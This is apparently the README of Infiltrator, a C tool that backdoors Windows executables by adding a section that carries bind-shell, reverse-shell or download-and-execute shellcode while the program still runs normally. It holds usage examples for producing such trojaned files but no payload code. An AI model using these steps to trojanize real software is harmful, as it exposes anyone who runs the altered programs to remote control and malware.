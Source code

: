 Infiltrator
===========

Infiltrator 0.1

[*] License:

  Infiltrator by Saif El-Sherei is licensed under the Creative Commons Attribution-NonCommercial 3.0 Unported License. To view a copy of this license, visit http://creativecommons.org/licenses/by-nc/3.0/.
  
[*] Disclaimer:

	This Tool is for learning & Demonstration only. the author is not responsible for any misuse of this code or tool. 
	
[*] Introduction:

	Intifltrator is my first c project (so dont be so harsh :D). It is a PE Executable backdoor tool. i.e. it inserts payloads in exe files so the exe will function normally and execute our own code through it.
the working model is as follows.

 read input PE IMAGE_DOS_HEADERS --> read input PE IMAGE_NET_HEADERS --> read PE IMAGE_SECTION_HEADER list --> 	add new IMAGE_SECTION_HEADER -- > increase Number of Sections in IMAGE_NT_HEADER.File Header.NumberOfSections -->
increase ImageSize in IMAGE_NT_HEADER.OptionalHeader.ImageSize --> add rest of PE file --> write payload in our new section --> write to new PE file 

[*] Refrences:

https://www.corelan.be/index.php/2010/02/25/exploit-writing-tutorial-part-9-introduction-to-win32-shellcoding/
http://win32assembly.programminghorizon.com
http://en.wikibooks.org/wiki/X86_Disassembly/Windows_Executable_Files#MS-DOS_header
http://www.sunshine2k.de/reversing/tuts/tut_addsec.htm
http://msdn.microsoft.com/en-us/library/ms809762.aspx
http://www.codereversing.com/blog/?p=92
http://www.alex-ionescu.com/part1.pdf

[*] Credits:

		[*] corelanc0d3r "https://www.corelan.be".
				"Thanks for the insight on the threaded shellcode & amazing tutorials"
		[*] Sherif El deeb "http://eldeeb.net/wrdprs/".
				"Thanks for the continous motovation, inspiration, & help through out this"
		[*] Metasploit Team.
				" Thanks for the amazingly well documented project metasploit framework"

[*] Author:

		[*] Saif El-Sherei 	* website: "http://www.elsherei.com" 
							* Twitter: @saif_sherei
							* email: saif.elsherei@gmail.com
[*] Features:

		[*] Three Payload Types (bind tcp, reverse tcp, download and execute).
		[*] Choose between threaded shellcode or blocking shellcode.
		[*] specify shellcode options; no need for hardcoding (see usage below).
		[*] PE executable works normaly without any issues.
[*] Todo:

		[*] Payload encoding.
[*] Usage:

 Infiltrator -i [INPUT EXE] -o [OUTPUT EXE] -k (threaded) or -s (Normal) [type]
                 -p [PORT] -h [HOST] -u [URL] -f [URL path] -of [output file]

[*] Example:

- infiltrator -i "input.exe" -o "output.exe" -k "reverse" -p 1234 -h "127.0.0.1"
- infiltrator -i "input.exe" -o "output.exe" -k "bind" -p 1234 
- infiltrator -i "input.exe" -o "output.exe" -s "download & execute" -u www.test.com -f "test.exe" -of "test-output.exe"

[*] Options:

 -i   				INPUT file.exe (PE)
 
 -o 				OUPUT file.exe (PE)
 
 -s    				Normal Shellcode followed by one of the payload types
 
 -k     			Threaded Shellcode followed by one of the payload types

[*] Payload Types:

 "bind"                          	Bind payload Followed by payload options
 
 "reverse"                        	Connect Back Payload Followed by payload options
 
 "download & execute"     		Download & exec Payload Followed by payload options
 

[*] Payload Options:

 -p [port]                      	port to use (Bind or Reverse Payload)
 
 -h [host]                      	Host to connect to (Reverse Payload)
 
 -u [url]                      		URL to connect to (Download & Exec Payload)
 
 -f [path]                     		path to file to fetch (Download & Exec Payload)
 
 -of[output file]      			output file to Execute from  Download & Exec Payload
